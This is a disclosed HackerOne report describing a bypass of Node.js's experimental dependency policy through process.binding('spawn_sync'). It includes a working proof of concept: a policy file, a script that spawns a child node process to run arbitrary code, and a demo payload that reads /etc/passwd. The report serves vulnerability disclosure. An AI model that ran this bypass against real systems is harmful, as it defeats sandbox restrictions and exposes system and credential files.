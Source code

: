 # Dependency Policy Bypass via process.binding

## Report Details
- **Report ID**: 2120719
- **URL**: https://hackerone.com/reports/2120719
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-08-23T00:49:09.296Z
- **Disclosed**: 2023-09-09T15:11:23.523Z

## Reporter
- **Username**: leodog896
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
# Preface (for the Internet Bug Bounty)

The entire vulnerability can be found in HackerOne @ [Dependency Policy Bypass via process.binding](https://hackerone.com/reports/1946470#activity-21276452). For the sake of convenience, I've pasted the entire report down below.

# Copied Vulnerability

**Summary:** By taking advantage of `process.binding('spawn_sync');`, a malicious actor can run arbitrary code, outside of the limits defined in a `policy.json` file.

**Description:** The experimental policy feature for NodeJS is used usually for security reasons, including validating integrity of source code and limiting module access to files. This vulnerability allows an actor to bypass the latter part of its security features, by loading in any module from an external Node.JS script.

Since the required modules use internal bindings, by fetching these bindings themselves, it is possible to neglect the dependency policy altogether.

This also exists within almost all `process.binding` modules with less or the same severity.

## Steps To Reproduce:

1. Create `policy.json`:
```json
{
  "onerror": "exit",
  "scopes": {
    "file:": {
      "integrity": true,
      "dependencies": {}
    }
  }
}
```

2. Create `app.js`:
```js
const { spawn } = process.binding("spawn_sync");

function arbitraryExecute(input) {
    const result = spawn({
        maxBuffer: 1048576,
        args: ["node", "-"],
        cwd: undefined,
        detached: false,
        file: "node",
        windowsHide: false,
        windowsVerbatimArguments: false,
        killSignal: undefined,
        stdio: [
            { type: "pipe", readable: true, writable: false, input: Buffer.from(input) },
            { type: "pipe", readable: false, writable: true },
            { type: "pipe", readable: false, writable: true },
        ],
    });

    return {
        output: result.output[1].toString(),
        error: result.output[2].toString(),
    }
}

console.log(arbitraryExecute(`
const fs = require('fs');

fs.readFile('/etc/passwd', 'utf8', (err, data) => {
    if (err) {
        console.error(err);
        return;
    }
    console.log(data);
});
`).output);
```

3. Run the code with:
```sh
node --experimental-policy=policy.json app.js
```

The file will work as the code describes, even though the permission policy explicitly states it doesn't take any dependencies.

If you run the file alone with the same policy:

`app.js`:
```js
const fs = require('fs');

fs.readFile('/etc/passwd', 'utf8', (err, data) => {
    if (err) {
        console.error(err);
        return;
    }
    console.log(data);
});
```

It will show an error:
```
error [ERR_MANIFEST_DEPENDENCY_MISSING]: Manifest resource ./app.js does not list fs as a dependency specifier for conditions: require, node, node-addons
```

## Impact

Any project using NodeJS's policies in order to restrict dependency use is vulnerable. This example simply reads from `/etc/passwd`, but an attacker can run any arbitrary NodeJS process and script.

## Attachments
No attachments
